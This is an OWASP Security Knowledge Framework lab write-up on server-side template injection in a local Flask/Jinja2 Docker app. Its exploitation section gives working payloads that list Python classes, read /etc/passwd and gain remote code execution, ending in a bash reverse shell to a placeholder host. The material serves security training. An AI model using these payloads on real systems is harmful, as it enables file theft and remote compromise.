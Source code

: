 # KBID 267 - SSTI

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:ssti
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:ssti
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to ContraHack!](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

#### Step 1

As with all reconnaissance we first have to determine the type of application that is running and the programming language it was written in. This could easily be achieved by setting up an intercepting proxy and study the requests and responses made by the application to the web sever. 

Also, trying to trigger error messages on the application can also give away a lot of information about the application under test.

In the screenshot below in the response of the we find the python version that is running, accompanied  with the server "Werkzeug". This is a clear indicator the web application might be running python flask, and python flask typically runs with the templating engine, jinja2.

![](.gitbook/assets/ssti1.png)

#### Step2

Now that we have determined the type of application that is running let's try to see if any user supplied input is accepted by the application. The input from the URL is being processed directly in the application and outputted in the HTML. So now we have control of whatever is being reflected on the page. How do we now determine if the application might be susceptible to Server Side Template Injection?  
  
First we need to do some investigation on how the syntax works, so we dive into the docs!

{% hint style="info" %}
[http://jinja.pocoo.org/docs/2.10/templates/](http://jinja.pocoo.org/docs/2.10/templates/)
{% endhint %}

And here we find the following information.

```text
{% ... %} for Statements
{{ ... }} for Expressions to print to the template output
{# ... #} for Comments not included in the template output
#  ... ## for Line Statements
```

Now, we want to use expressions to print to the template output to see if our payloads are interpreted and executed on the server-side by the templating engine. The most ideal way to do so is to inject mathematical statements.

As found in the docs:

```text
{{ 1 + 1 }} is 2.
```

Let's see what happens of we inject the expression with the operator described above!

![](.gitbook/assets/screen-shot-2019-01-10-at-13.13.36.png)

## Exploitation

A nice website with write-ups about different type of payloads on template engines is found here:  
[  
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections\#dump-all-used-classes](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#dump-all-used-classes)

In python `__mro__` or `mro()` allows us to go back up the tree of inherited objects in the current Python environment, and `__subclasses__` lets us come back down. Read the [docs](https://docs.python.org/3/library/stdtypes.html?highlight=subclasses#class.__mro__) for more. Basically, you can crawl up the inheritance tree of the known objects using `mro`, thus accessing _every class loaded_ in the current python environment 

Now, lets find some usefull injections for Jinja2.  
In order to build our exploit this here already looks pretty promising:

```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

After injecting the payload we now have a list of all the different classes loaded in our target application. Let's see if we can use it to read some information from the file system

![](.gitbook/assets/screen-shot-2019-01-10-at-17.59.05.png)

On position 40 whilst iterating over the different loaded classes we find the "read" function. Let's use this function to read the "/etc/passwd" file from the filesystem.

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

![](.gitbook/assets/screen-shot-2019-01-10-at-17.59.36.png)

As mentioned before this attack can ultimately be used also to gain remote code execution on the target application. In order to do so we first would need to set up a listener and than inject the following payloads

```text
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host
```

## Additional sources

[https://portswigger.net/blog/server-side-template-injection](https://portswigger.net/blog/server-side-template-injection)  
  
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections\#dump-all-used-classes](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#dump-all-used-classes)  
  
[https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)  
  


